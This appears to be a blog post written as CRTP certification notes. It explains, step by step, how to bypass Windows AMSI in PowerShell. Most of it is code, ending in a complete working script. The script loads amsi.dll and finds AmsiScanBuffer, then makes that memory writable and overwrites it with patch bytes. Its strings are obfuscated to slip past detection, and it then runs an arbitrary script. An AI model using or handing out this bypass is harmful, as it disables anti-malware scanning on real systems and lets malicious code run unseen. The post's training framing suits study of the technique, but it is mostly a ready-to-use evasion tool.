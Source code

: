 ```yaml
---
title: Bypass AMSI Like a King - CRTP
date: 2024-06-20 05:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert]     # TAG names should always be lowercase
description: Describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell.
---
```


# Summary

This document describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell. It involves loading the `amsi.dll` into memory, finding the memory address of the `AmsiScanBuffer` function, and changing the memory protection to allow writing and executing code. Shellcode is then injected, and a PowerShell script is run. This method is mainly used for cybersecurity research and testing purposes and should be used responsibly.

### 1. Defining a C# Class with PInvoke Methods

```jsx
$Win32 = @"
using System.Runtime.InteropServices;
using System;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
```

In PowerShell, you can't directly call functions from Windows DLLs like `kernel32.dll` or `user32.dll`. These DLLs contain functions written in languages like C or C++. However, you can use a feature called PInvoke (Platform Invocation Services) to call these functions from PowerShell. PInvoke allows managed code (like C#) to call unmanaged functions.

**Explanation:**

- This part of the code defines a C# class `Win32` using a here-string (`@" ... "@`) in PowerShell.
- This class contains three methods: `GetProcAddress`, `LoadLibrary`, and `VirtualProtect`.
- These methods use the `[DllImport]` attribute, which tells the .NET runtime to look for these functions in the specified DLLs (`kernel32.dll` in this case).
- `GetProcAddress` retrieves the address of an exported function from a DLL.
- `LoadLibrary` loads a DLL into the process's address space.
- `VirtualProtect` changes the protection on a region of memory.

---

### 2. Loading `amsi.dll`

```jsx
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))

```

The script aims to interact with functions from `amsi.dll`, which is a Windows DLL containing functions related to the Anti-Malware Scan Interface (AMSI). Before you can use functions from a DLL, you need to load the DLL into memory. The `LoadLibrary` function from `kernel32.dll` is used for this purpose.

**Explanation:**

- This part initializes a byte array `$nowhere` representing the ASCII characters of the string "amsi.dll".
- It then calls the `LoadLibrary` method from the `Win32` class to load `amsi.dll` into memory.
- The result, which is a handle to the loaded DLL, is stored in the variable `$LoadLibrary`.

---

### 3. Getting the Address of `AmsiScanBuffer`

```jsx
$somewhere = [Byte[]](0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
```

The script needs to find the memory address of the `AmsiScanBuffer` function inside `amsi.dll`. This is necessary to modify or intercept the behavior of the `AmsiScanBuffer` function later in the script. The `GetProcAddress` function from `kernel32.dll` is used to retrieve the address of a function within a loaded DLL.

**Explanation:**

- This part initializes a byte array `$somewhere` representing the ASCII characters of the string "AmsiScanBuffer".
- It calls the `GetProcAddress` method from the `Win32` class to retrieve the address of the `AmsiScanBuffer` function within `amsi.dll`.
- The resulting memory address is stored in the variable `$notaddress`.

---

### 4. Changing Memory Protection

```
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
```

**Explanation:**

- This part sets up a variable `$notp` to hold the old protection value.
- It constructs the name of the `VirtualProtect` method dynamically using the variable `$replace`.
- Then, it calls the dynamically constructed method to change the memory protection of the `AmsiScanBuffer` function to allow writing and executing code.

---

### 5. Injecting Shellcode

```
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)
```

---

### 6. Executing Your PowerShell Script

```
Unblock-File -Path .\malas.ps1
. .\malas.ps1
```

**Explanation:**

- This part of the code unblocks the script file `malas.ps1`, if it was blocked for security reasons.
- Then, it executes the `malas.ps1` script by dot-sourcing it (`.` operator followed by the script name). This runs the script in the current PowerShell session.

---

### 7. Final Code

```jsx
$c = 't'
$Win32 = @"
using System.Runtime.InteropServices;
using System;
public class Win32 {[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

#Run your powershell here
Unblock-File -Path .\malas.ps1
. .\malas.ps1
```